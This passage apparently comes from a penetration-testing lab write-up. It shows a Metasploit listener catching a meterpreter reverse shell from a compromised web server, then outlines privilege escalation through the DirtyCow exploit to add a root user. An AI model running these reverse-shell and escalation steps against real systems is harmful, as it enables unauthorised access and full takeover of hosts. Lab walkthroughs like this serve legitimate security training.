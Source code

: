 ### start `metasploit` listener on attacker machine
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.150   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443 
```

### start `meterpreter`
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ /tmp/shell
```

### catch connection from `meterpreter`
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443
[*] Meterpreter session 1 opened (192.168.49.150:443 -> 192.168.150.87:52570 ) at 2022-02-01 16:57:33 -0500

meterpreter > getuid
Server username: www-data
```

## privilege escalation
1. Use [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) to identify that the server is vulnerable to `dirtycow`
2. Use [https://www.exploit-db.com/raw/40839](https://www.exploit-db.com/raw/40839) and upload it to the target via `meterpreter`
3. Compile and execute the exploit to add a new `root` user
